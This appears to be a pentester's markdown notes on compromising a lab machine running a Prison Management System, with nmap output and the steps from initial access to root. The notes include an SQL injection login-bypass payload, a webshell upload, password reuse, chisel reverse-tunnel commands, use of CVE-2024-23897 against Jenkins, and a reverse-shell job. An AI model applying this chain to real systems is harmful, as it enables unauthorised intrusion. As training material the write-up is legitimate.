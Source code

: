 
# Pentest Notes

## Target Information
**IP:**  192.168.45.228
**OS/Techno:** Ubuntu, PHP

## Credentials
- **User:**  
- **Password:** `RonnyCache001`

## Services
- **21/tcp FTP** → vsftpd 3.0.5 (anonymous login not useful)  
- **80/tcp HTTP** → Apache default page  
- **9443/tcp HTTPS** → Prison Management System, admin dashboard  
  - Tried `admin:admin` → failed  
  - Tried `root:root` → failed  
  - Confirmed SQL injection in `txtusername` (time-based blind, MySQL ≥ 5.0.12)  
- **22/tcp SSH** → OpenSSH 9.6p1 (no valid user yet)

## Nmap Scan
```
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      vsftpd 3.0.5
|_banner: 220 (vsFTPd 3.0.5)
22/tcp   open  ssh      OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
|_banner: SSH-2.0-OpenSSH_9.6p1 Ubuntu-3ubuntu13.4
80/tcp   open  http     Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
9443/tcp open  ssl/http Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Exploitation
- SQL injection bypass:  
  ```
  username: admin' or 1=1-- -
  password: admin
  ```
  Logged into the dashboard.

- Found credential in dashboard: `RonnyCache001`  
- Uploaded PHP webshell by bypassing Content-Type check with BurpSuite.  
- Shell gained as `www-data`.  
- Reused password → got shell as `vmdak`.  
- Captured **user flag**.

## Privilege Escalation
Checked listening services:
```
ss -tupln
udp   127.0.0.54:53
udp   127.0.0.53%lo:53
tcp   0.0.0.0:80
tcp   0.0.0.0:21
tcp   0.0.0.0:22
tcp   0.0.0.0:9443
tcp   127.0.0.53%lo:53
tcp   127.0.0.1:8080
tcp   127.0.0.54:53
tcp   127.0.0.1:33060
tcp   127.0.0.1:3306
```

- Found Jenkins running on localhost:8080.  
- Port forwarding with **chisel**:  
  - On attacker:  
    ```bash
    ./chisel server -p 8000 --reverse
    ```
  - On target:  
    ```bash
    ./chisel client 192.168.45.228:8000 R:8000:127.0.0.1:8080
    ```

- Access Jenkins in browser: `http://127.0.0.1:8000`  
- Read Jenkins initial password: `/root/.jenkins/secrets/initialAdminPassword`  
- Vulnerable to **CVE-2024-23897**, used to read file and gain access.  

- Created a Jenkins job to execute a reverse shell.  
- Ran the job → obtained **root shell**.  


